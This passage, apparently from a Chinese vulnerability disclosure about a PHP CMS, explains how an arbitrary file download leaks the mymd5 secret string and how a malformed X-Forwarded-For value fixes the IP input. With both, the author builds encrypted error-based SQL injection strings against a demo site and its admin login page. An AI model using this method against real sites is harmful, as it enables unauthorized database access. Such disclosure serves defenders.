
$secret_string = $webdb[mymd5].$rand.'5*j,.^&;?.%#@!'; //绝密字符串,可以任意设定

可以看到第三个参数是进了这个变量然后带入了加密中 看看$onlineip 怎么来的。

来看看全局文件

```php
if($_SERVER['HTTP_CLIENT_IP']){

     $onlineip=$_SERVER['HTTP_CLIENT_IP'];

}elseif($_SERVER['HTTP_X_FORWARDED_FOR']){     

     $onlineip=$_SERVER['HTTP_X_FORWARDED_FOR'];

}else{

     $onlineip=$_SERVER['REMOTE_ADDR'];

}

$onlineip = preg_replace("/^([\d\.]+).*/", "\\1", filtrate($onlineip));

preg_match("/[\d\.]{7,15}/", $onlineip, $onlineipArray);

$onlineip = $onlineipArray[0] ? $onlineipArray[0] : '**.**.**.**'; 
```

可以看到是获取的 xff 但是后面用了正则来验证 ip 是否合法

如果不合法的话 就 return 的是**.**.**.** 这里我们就随便让 xff 不合法就行了

然后把**.**.**.** 带入到加密函数当中

* * *

不多说了 直接调用一下函数生成一下加密的字符串。


在测试 demo 的时候发现竟然不报错。


这怎么可能呢? 后面想了一想

$secret_string = $webdb[mymd5].$rand.'5*j,.^&;?.%#@!'; //绝密字符串,可以任意设定

$rand 后面设定的是可以任意设定的 可能 demo 修改了。

然后果断继续利用刚才的方法下载 inc/function.inc.php

```php
function mymd5($string,$action="EN",$rand=''){ //字符串加密和解密 

    global $webdb;

    $secret_string = $webdb[mymd5].$rand.'5*j,.^&;?.%#@!=67987d'; //绝密字符串,可以任意设定 
```

呵呵 demo 果然修改了。 把这个修改后 继续调用一下这函数 再生成一下语句。


成功报错。

后面的不用多说了。 生成一个加密的报错注入的语句就能注入了。

不想多说。

这里应该可以直接登录后台,懒得弄了。

## 漏洞证明

是不需要登录后台的 是在后台登录页面 等 其他多个地方注入。

见上面。

## 修复方案

漏洞的源头是任意文件下载。

过滤<等特殊字符。